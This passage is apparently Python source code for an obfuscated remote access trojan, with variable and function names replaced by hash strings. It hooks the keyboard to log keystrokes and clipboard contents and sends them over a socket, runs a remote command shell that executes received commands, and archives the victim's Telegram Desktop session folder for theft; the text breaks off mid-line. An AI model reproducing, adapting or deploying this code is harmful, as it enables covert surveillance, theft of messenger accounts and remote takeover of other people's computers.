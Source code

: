 b4f802ebfba977727845e8872cb743a7==\'Home\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Home>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Clear\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Clear>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Space\':\r\n            \tb4f802ebfba977727845e8872cb743a7=\'<Space>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Prior\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Prior>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Numlock\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Num lock>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Snapshot\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Snapshot>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Back\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Back Space>\'\r\n            if b4f802ebfba977727845e8872cb743a7==\'Return\':\r\n                b4f802ebfba977727845e8872cb743a7=\'<Enter>\'\r\n            if b4f802ebfba977727845e8872cb743a7[0]==\'F\' and len(b4f802ebfba977727845e8872cb743a7)==2 or b4f802ebfba977727845e8872cb743a7 in [\'F12\',\'F11\',\'F10\'] :\r\n                b4f802ebfba977727845e8872cb743a7=\'<\'+b4f802ebfba977727845e8872cb743a7+\'>\'\r\n        bcdb92b7b97ef94b9ae4479d3f4ef0fc=bcdb92b7b97ef94b9ae4479d3f4ef0fc+b4f802ebfba977727845e8872cb743a7\r\n        b3c7cbace395d8b182dbb7ae2c3bfb34.send(bcdb92b7b97ef94b9ae4479d3f4ef0fc)\r\n        if bcdb92b7b97ef94b9ae4479d3f4ef0fc==\'V\':\r\n            OpenClipboard()\r\n            try:\r\n                b62a04d2d4b82bfc1e10bb49c416e705=\'<Clipboard:\'+GetClipboardData()+\'>\'\r\n            except:\r\n                b62a04d2d4b82bfc1e10bb49c416e705=\'<Clipboard:ONE FILE PASTED>\'\r\n            b3c7cbace395d8b182dbb7ae2c3bfb34.send(b62a04d2d4b82bfc1e10bb49c416e705)\r\n            CloseClipboard()\r\n        bcdb92b7b97ef94b9ae4479d3f4ef0fc=\'\'\r\n    global bcdb92b7b97ef94b9ae4479d3f4ef0fc\r\n    bcdb92b7b97ef94b9ae4479d3f4ef0fc=\'\'\r\n    be8f80182e0c983916da7338c2c1c040=HookManager()\r\n    be8f80182e0c983916da7338c2c1c040.KeyDown=b954f27ca739ea6b036fcb11d43427a1\r\n    be8f80182e0c983916da7338c2c1c040.HookKeyboard()\r\n    while True:\r\n        b277e0910d750195b44b797616e091ad=b3c7cbace395d8b182dbb7ae2c3bfb34.recv(3)\r\n        if b277e0910d750195b44b797616e091ad==\'not\':\r\n            break\r\n        try:\r\n            b3c7cbace395d8b182dbb7ae2c3bfb34.send(\'null\')\r\n        except:\r\n        \tpass\r\n        PumpWaitingMessages()\r\ndef bedc6d1c31802fb5f8093a2a0fbe7f1d(cf1e8c14e54505f60aa10ceb8d5d8ab3):\r\n\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(popen(\'cd\').read().replace(\'\\n\',\'\'))\r\n\tbd54dae327eb0f2f1af1d6b8308b43bf=popen(\'wmic logicaldisk get name\').read().replace(\'\\n\',\'\').replace(\'\\r\',\'\').replace(\' \',\'\').replace(\'Name\',\'\')[:-1]\r\n\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(bd54dae327eb0f2f1af1d6b8308b43bf)\r\n\tbd54dae327eb0f2f1af1d6b8308b43bf=bd54dae327eb0f2f1af1d6b8308b43bf.split(\':\')\r\n\twhile True:\r\n\t\te22d1158ddbc0d305521e03ebf67c940=cf1e8c14e54505f60aa10ceb8d5d8ab3.recv(10240)\r\n\t\tif e22d1158ddbc0d305521e03ebf67c940.split()[0]==\'exit\':\r\n\t                break\r\n\t\tif e22d1158ddbc0d305521e03ebf67c940[0:3]==\'cd \' and len(e22d1158ddbc0d305521e03ebf67c940)>3:\r\n\t\t\ttry:\r\n\t\t\t\tchdir(e22d1158ddbc0d305521e03ebf67c940[3:])\r\n\t\t\texcept:\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(\'not\')\r\n\t\t\telse:\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(popen(\'cd\').read().replace(\'\\n\',\'\'))\r\n\t\telif e22d1158ddbc0d305521e03ebf67c940[0].upper() in bd54dae327eb0f2f1af1d6b8308b43bf and e22d1158ddbc0d305521e03ebf67c940[1]==\':\' and len(e22d1158ddbc0d305521e03ebf67c940)==2:\r\n\t\t\tprint e22d1158ddbc0d305521e03ebf67c940[0:2]\r\n\t\t\ttry:\r\n\t\t\t\tchdir(e22d1158ddbc0d305521e03ebf67c940[0:2])\r\n\t\t\texcept:\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(\'not\')\r\n\t\t\telse:\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(popen(\'cd\').read().replace(\'\\n\',\'\'))\r\n\t\telif e22d1158ddbc0d305521e03ebf67c940.split()[0]==\'break\':\r\n\t\t\tbreak\r\n\t\telse:  \r\n\t\t\tb4a88417b3d0170d754c647c30b7216a=Popen(e22d1158ddbc0d305521e03ebf67c940.split(),stdout=PIPE,stderr=PIPE,shell=True)\r\n\t\t\tc691f4f0391daffaf07b1aae26afe284=list(b4a88417b3d0170d754c647c30b7216a.communicate())\r\n\t\t\ttime.sleep(1)\r\n\t\t\tif c691f4f0391daffaf07b1aae26afe284[0]!=\'\':\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(c691f4f0391daffaf07b1aae26afe284[0])\r\n\t\t\telif c691f4f0391daffaf07b1aae26afe284[1]!=\'\':\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(c691f4f0391daffaf07b1aae26afe284[1])\r\n\t\t\telse:\r\n\t\t\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(\'\\n\')\r\ndef b9a960b9fa32b73b073cbeeb8778bc07(bacb3a53bbc6cb5e6dc33b8894fb9273,cf1e8c14e54505f60aa10ceb8d5d8ab3):\r\n        def d81b319acd5cde0c43519a80a0cc73da(d0d38ad301246b77fbc4ba4881d40d48):\r\n            make_archive(\'C:\\\\Users\\\\\'+d0d38ad301246b77fbc4ba4881d40d48+\'\\\\AppData\\\\Roaming\\\\tdata\', format="bztar", root_dir=\'C:\\\\Users\\\\\'+d0d38ad301246b77fbc4ba4881d40d48+\'\\\\AppData\\\\Roaming\\\\Telegram Desktop\\\\tdata\\\\\')\r\n        d6e1ca84308e59169ffc76620d290136=Thread(target=d81b319acd5cde0c43519a80a0cc73da,args=(bacb3a53bbc6cb5e6dc33b8894fb9273,))\r\n        d6e1ca84308e59169ffc76620d290136.run()\r\n\tbfa14cdd754f91cc6554c9e71929cce7=open(\'C:\\\\Users\\\\\'+bacb3a53bbc6cb5e6dc33b8894fb9273+\'\\\\AppData\\\\Roaming\\\\tdata.tar.bz2\',\'rb\')\r\n\tb9ca76e40bd85486be59b0cdbe8de29a=bfa14cdd754f91cc6554c9e71929cce7.read(1024)\r\n\twhile